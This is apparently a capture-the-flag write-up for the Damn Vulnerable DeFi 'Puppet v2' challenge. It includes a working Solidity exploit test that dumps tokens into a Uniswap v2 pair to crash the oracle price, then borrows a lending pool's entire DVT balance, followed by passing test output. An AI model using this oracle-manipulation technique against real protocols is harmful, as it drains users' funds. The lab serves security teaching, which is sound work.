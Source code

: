 # Damn Vulnerable DeFi (Foundry version)

- [Scope](#scope)
- [Plan](#plan)
- [Solution](#solution)
  - [Proof of Concept](#proof-of-concept)

## Challenge #9 - Puppet v2 - Description

The developers of the last lending pool are saying that they've learned the lesson. And just released a new version!

Now they're using a Uniswap v2 exchange as a price oracle, along with the recommended utility libraries. That should be enough.

You start with 20 ETH and 10000 DVT tokens in balance. The new lending pool has a million DVT tokens in balance. You know what to do ;)

## Scope

| File Name                                                                 | SHA-1 Hash                               |
| ------------------------------------------------------------------------- | ---------------------------------------- |
| damn-vulnerable-defi-foundry/src/Contracts/puppet-v2/Interfaces.sol       | a0fd58cda9b1368763a82fb7eeb2688dc22f588b |
| damn-vulnerable-defi-foundry/src/Contracts/puppet-v2/IUniswapV2Pair.sol   | 4d50fe6ddb44138b1d3e90d88a88d943ab612d6a |
| damn-vulnerable-defi-foundry/src/Contracts/puppet-v2/PuppetV2Pool.sol     | 81d8ca264bcf31c026e78f3eb34c71afc4780b4e |
| damn-vulnerable-defi-foundry/src/Contracts/puppet-v2/UniswapV2Library.sol | 113cef9d817c64bc46513b6daa119a22fd81bb7f |

## Plan

More or less the same plan as in Challenge #8 - Puppet.

## Solution

1.  Give all of our DVTs for ETH through Uniswap.
2.  Change ETH to WETH.
3.  Borrow all the DVTs from the pool.

<details>
    <summary>Description</summary>

</details>

<details>
    <summary>damn-vulnerable-defi-foundry/test/Levels/puppet-v2/PuppetV2.t.sol</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0;

import {Utilities} from "../../utils/Utilities.sol";
import "forge-std/Test.sol";

import {DamnValuableToken} from "../../../src/Contracts/DamnValuableToken.sol";
import {WETH9} from "../../../src/Contracts/WETH9.sol";

import {PuppetV2Pool} from "../../../src/Contracts/puppet-v2/PuppetV2Pool.sol";

import {IUniswapV2Router02, IUniswapV2Factory, IUniswapV2Pair} from "../../../src/Contracts/puppet-v2/Interfaces.sol";

contract PuppetV2 is Test {
    // Uniswap exchange will start with 100 DVT and 10 WETH in liquidity
    uint256 internal constant UNISWAP_INITIAL_TOKEN_RESERVE = 100e18;
    uint256 internal constant UNISWAP_INITIAL_WETH_RESERVE = 10 ether;

    // attacker will start with 10_000 DVT and 20 ETH
    uint256 internal constant ATTACKER_INITIAL_TOKEN_BALANCE = 10_000e18;
    uint256 internal constant ATTACKER_INITIAL_ETH_BALANCE = 20 ether;

    // pool will start with 1_000_000 DVT
    uint256 internal constant POOL_INITIAL_TOKEN_BALANCE = 1_000_000e18;
    uint256 internal constant DEADLINE = 10_000_000;

    IUniswapV2Pair internal uniswapV2Pair;
    IUniswapV2Factory internal uniswapV2Factory;
    IUniswapV2Router02 internal uniswapV2Router;

    DamnValuableToken internal dvt;
    WETH9 internal weth;

    PuppetV2Pool internal puppetV2Pool;
    address payable internal attacker;
    address payable internal deployer;

    function setUp() public {
        /**
         * SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE
         */
        attacker = payable(address(uint160(uint256(keccak256(abi.encodePacked("attacker"))))));
        vm.label(attacker, "Attacker");
        vm.deal(attacker, ATTACKER_INITIAL_ETH_BALANCE);

        deployer = payable(address(uint160(uint256(keccak256(abi.encodePacked("deployer"))))));
        vm.label(deployer, "deployer");

        // Deploy token to be traded in Uniswap
        dvt = new DamnValuableToken();
        vm.label(address(dvt), "DVT");

        weth = new WETH9();
        vm.label(address(weth), "WETH");

        // Deploy Uniswap Factory and Router
        uniswapV2Factory =
            IUniswapV2Factory(deployCode("./src/build-uniswap/v2/UniswapV2Factory.json", abi.encode(address(0))));

        uniswapV2Router = IUniswapV2Router02(
            deployCode(
                "./src/build-uniswap/v2/UniswapV2Router02.json", abi.encode(address(uniswapV2Factory), address(weth))
            )
        );

        // Create Uniswap pair against WETH and add liquidity
        dvt.approve(address(uniswapV2Router), UNISWAP_INITIAL_TOKEN_RESERVE);
        uniswapV2Router.addLiquidityETH{value: UNISWAP_INITIAL_WETH_RESERVE}(
            address(dvt),
            UNISWAP_INITIAL_TOKEN_RESERVE, // amountTokenDesired
            0, // amountTokenMin
            0, // amountETHMin
            deployer, // to
            DEADLINE // deadline
        );

        // Get a reference to the created Uniswap pair
        uniswapV2Pair = IUniswapV2Pair(uniswapV2Factory.getPair(address(dvt), address(weth)));

        assertGt(uniswapV2Pair.balanceOf(deployer), 0);

        // Deploy the lending pool
        puppetV2Pool = new PuppetV2Pool(
            address(weth),
            address(dvt),
            address(uniswapV2Pair),
            address(uniswapV2Factory)
        );

        // Setup initial token balances of pool and attacker account
        dvt.transfer(attacker, ATTACKER_INITIAL_TOKEN_BALANCE);
        dvt.transfer(address(puppetV2Pool), POOL_INITIAL_TOKEN_BALANCE);

        // Ensure correct setup of pool.
        assertEq(puppetV2Pool.calculateDepositOfWETHRequired(1 ether), 0.3 ether);

        assertEq(puppetV2Pool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE), 300_000 ether);

        console.log(unicode"🧨 Let's see if you can break it... 🧨");
    }

    function testExploit() public {
        /**
         * EXPLOIT START *
         */
        vm.startPrank(attacker);
        dvt.approve(address(uniswapV2Router), ATTACKER_INITIAL_TOKEN_BALANCE);

        address[] memory t = new address[](2);
        t[0] = address(dvt);
        t[1] = address(weth);

        uniswapV2Router.swapExactTokensForETH(ATTACKER_INITIAL_TOKEN_BALANCE, 1, t, attacker, DEADLINE);
        uint256 balance = attacker.balance;
        weth.deposit{value: balance}();
        weth.approve(address(puppetV2Pool), balance);
        puppetV2Pool.borrow(POOL_INITIAL_TOKEN_BALANCE);
        vm.stopPrank();
        /**
         * EXPLOIT END *
         */
        validation();
        console.log(unicode"\n🎉 Congratulations, you can go to the next level! 🎉");
    }

    function validation() internal {
        /**
         * SUCCESS CONDITIONS
         */

        // Attacker has taken all tokens from the pool
        assertEq(dvt.balanceOf(attacker), POOL_INITIAL_TOKEN_BALANCE);
        assertEq(dvt.balanceOf(address(puppetV2Pool)), 0);
    }
}
```

</details>

### Proof of Concept

```
./run.sh 9
[⠆] Compiling...
[⠢] Compiling 1 files with 0.8.17
[⠆] Solc 0.8.17 finished in 855.78ms
Compiler run successful

Running 1 test for test/Levels/puppet-v2/PuppetV2.t.sol:PuppetV2
[PASS] testExploit() (gas: 233646)
Logs:
  🧨 Let's see if you can break it... 🧨

🎉 Congratulations, you can go to the next level! 🎉

Test result: ok. 1 passed; 0 failed; finished in 3.99ms
```
